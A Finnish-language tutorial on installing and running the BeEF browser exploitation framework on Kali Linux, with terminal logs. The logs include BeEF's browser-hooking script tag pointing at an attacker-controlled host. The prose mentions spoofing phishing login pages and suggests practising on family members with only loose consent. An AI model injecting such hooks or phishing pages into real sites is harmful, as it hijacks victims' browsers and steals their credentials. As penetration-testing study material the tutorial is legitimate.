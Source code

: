 # BeEF

BeEF (The Browser Exploitation Framework), joka on <b>penetraatiotestaustyökalu</b>, joka keskityy verkkoselaimeen.

Penetraatio tarkoittaa läpäisyn tai tunkeutumista johonkin, että tarkoittaa myös tietomurtojen suojattuun tietojärjestelmän ulkoverkon kautta.

![Alt text](images_beef/beef-1.PNG)

BeEF antaa ammattimaiselle leviämistestausta arvioidakseen kohdeympäristön todellisen suojausasennon käyttämällä asiakaspuolen hyökkäysvektoria. Toisin/muualle eri tavalla kuin tietoturvakehystä, BeEF tutkii kovetetun verkon kehän ja asiakasjärjestelmän ohi ja tutkii hyödynnettävyyden kuin yhden oven, verkkoselaimen puuteita. BeEF kiinittää yhden tai useamman verkkoselaimen ja käyttää niitä rantapäänä (beachheads) ohjattuihin komento moduulia käynnistämisessä ja lisähyökkäyksien järjestelmää vastaan selainkontekstissa.

Hakkerointivälineenä tehokas työkalu, jota järjestelmän asiantuntijat voivat hyödyntää mm. suunnittellakseen järjestelmiä, erityisesti verkkosovelluksia, jotka ovat turvallisia loppykäyttäjille käyttöön. Hakkeri, jolla on tarvittavia tietoja, voi olla myös lisätä omia muutoksia BeEF järjestelmän hakkerointikehykseen tehdäkseen niitä tehokkaamin. Hakkeri voi jopa esim. suunnitella minkä tahansa verkkosivuston kirjautumisen, joita hakkeri tarvitsee tietoja ja jopa muokkaa tietojenkalastelusivun URL-linkkien osoiteitta ja näyttävät uskottavalta uhrien silmien edessä. Kaikki käyttäjät tulee välttää vierailemasta haitallisia ja turvattomia verkkosivustoja, jotta vältettään BeEF hakkeroinnin uhreilta. Myös kaikki käyttäjät tulee tarkistaa niiden verkkosivujen aitoutta, jotka edellyttävät, että annettaan henlilökohtaisia tietoja.

Harjoituksen kannalta kantsii harjoittella mielellään esim. kokeillee itse tai lähipiirissä (sisarukset/kotiväelle) kaverille ja jne. mutta ei mielellään yrityksessä, koska muuten tuottaisi riskiä ja tietojen vuotamista. Jos yrityksessä niin kantsii antaaa jokin pieni varoitus, että kennelle antaa sitä suorittaa sitä harjoitusta ja tehtävää.

BeEF on kuin puhas/ei vuoda tietojen käyttöliittymä järjestelmä hyökkäyksiä tyypien mukaan ja myös ilmoittamalla, liittyykö kyseinen hyökkäys selaimeen kuten chrome. Eli voi osoittaa jotakin ja napsauttaa hyökkäyksiä käynnistäessä.

<details>

![Alt text](images_beef/beef-2.PNG)
    
![Alt text](images_beef/beef-3.PNG)

![Alt text](images_beef/beef-4.PNG)

</details>

## eka lataus ohje

lataus ohjeita löytyy monipuolisesti, mutta suosituimmista jos käyttää kali linux pohjaa niin tästä suoraan; <br>
https://www.kali.org/tools/beef-xss/

```
┌──(root㉿kali)-[/home/kali]
└─# beef-xss
Command 'beef-xss' not found, but can be installed with:
apt install beef-xss
Do you want to install it? (N/y)y
apt install beef-xss
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done

```

Kali linux root:in käyttäjänä lataa ton ylemmän linkin ohjeen mukaan tulee resetoida salasanan, nii katsii antaa joku helppo jotta itse muistaa. Ladatun jälkeen kirjautuu annettun oletus IP-osoitteen mukaan (URL) linkki. 

```
┌──(root㉿kali)-[/home/kali]
└─# beef-xss -h
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: active (running) since Sat 2023-05-27 10:13:49 EDT; 5s ago
   Main PID: 35093 (ruby)
      Tasks: 4 (limit: 2261)
     Memory: 95.4M
        CPU: 2.681s
     CGroup: /system.slice/beef-xss.service
             └─35093 ruby /usr/share/beef-xss/beef

```

huomiona sitten, `beef-xss-stop -h` tarkoittaa sammutettaan/lopetettaan beef sovelluksen penestestaus järjestelmää ja sama homma `beef-xss-h`ikään kuin aktivoi tai käynnistää sitä järjestelmän sovellusta.

```
┌──(root㉿kali)-[/home/kali]
└─# beef-xss-stop -h
○ beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: inactive (dead)

May 27 10:15:33 kali beef[35093]: [10:13:53]    |   Hook URL: http://192.168.240.130:3000/hook.js
May 27 10:15:33 kali beef[35093]: [10:13:53]    |_  UI URL:   http://192.168.240.130:3000/ui/panel
May 27 10:15:33 kali beef[35093]: [10:13:53][*] RESTful API key: aec72fa5a59febad99b39d693a981711d24b9a38
May 27 10:15:33 kali beef[35093]: [10:13:53][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
May 27 10:15:33 kali beef[35093]: [10:13:53]    |_  Run geoipupdate to install
May 27 10:15:33 kali beef[35093]: [10:13:53][*] HTTP Proxy: http://127.0.0.1:6789
May 27 10:15:33 kali beef[35093]: [10:13:53][*] BeEF server started (press control+c to stop)
May 27 10:15:33 kali systemd[1]: beef-xss.service: Deactivated successfully.
May 27 10:15:33 kali systemd[1]: Stopped beef-xss.service - beef-xss.
May 27 10:15:33 kali systemd[1]: beef-xss.service: Consumed 2.796s CPU time.
                                                                                                                  
┌──(root㉿kali)-[/home/kali]
└─# 
                                                                                                                  
┌──(root㉿kali)-[/home/kali]
└─# beef-xss -h     
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: active (running) since Sat 2023-05-27 10:15:50 EDT; 5s ago
   Main PID: 36374 (ruby)
      Tasks: 4 (limit: 2261)
     Memory: 76.9M
        CPU: 1.952s
     CGroup: /system.slice/beef-xss.service
             └─36374 ruby /usr/share/beef-xss/beef

May 27 10:15:52 kali beef[36374]: [10:15:51]    |   Blog: http://blog.beefproject.com
```

# linkkei ja tarkennusta BeEF hakkeri työkalusta 

https://kalilinuxtutorials.com/hacking-with-beef/ <br>

## helpot steppit harjoitukset

https://www.golinuxcloud.com/beef-hacking-framework-tutorial/ <br>







